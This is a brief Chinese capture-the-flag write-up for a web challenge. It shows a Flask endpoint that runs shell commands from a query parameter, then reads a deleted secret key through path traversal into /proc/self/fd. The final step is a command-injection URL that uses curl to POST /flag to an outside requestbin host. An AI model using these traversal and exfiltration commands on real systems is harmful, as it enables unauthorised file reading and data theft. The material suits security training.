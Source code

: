 ```python
def manager():
    key = request.args.get("key")
    print(SECRET_KEY)
    if key == SECRET_KEY:
        shell = request.args.get("shell")
        os.system(shell)
        res = "ok"
    else:
        res = "Wrong Key!"

    return res


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8080)
```

程序读取完SECRET_KEY会删除/tmp/secret.txt,但在 linux 系统中如果一个程序打开了一个文件没有关闭，即便从外部（如os.remove(SECRET_FILE)）删除之后，在 /proc 这个进程的 pid 目录下的 fd 文件描述符目录下还是会有这个文件的 fd，通过这个我们即可得到被删除文件的内容。/proc/[pid]/fd 这个目录里包含了进程打开文件的情况；；pid就是进程记录的打开文件的序号

`GET /page?url=../../../../../../proc/self/fd/3`

得到

```
Q5/D1nib7wrAzbRJh7TOBL2YubyPFCDb0QbVd3igL7A=
```

尝试发现无回显，那么带外输出即可

```
http://4a6fb514-4e6c-4b72-a635-80be6c793ae6.node3.buuoj.cn/no_one_know_the_manager?key=Q5/D1nib7wrAzbRJh7TOBL2YubyPFCDb0QbVd3igL7A=&shell=curl -X POST -d "flag=`cat /flag`" http://requestbin.net/r/1l5u7d01
```

检查request.bin得到flag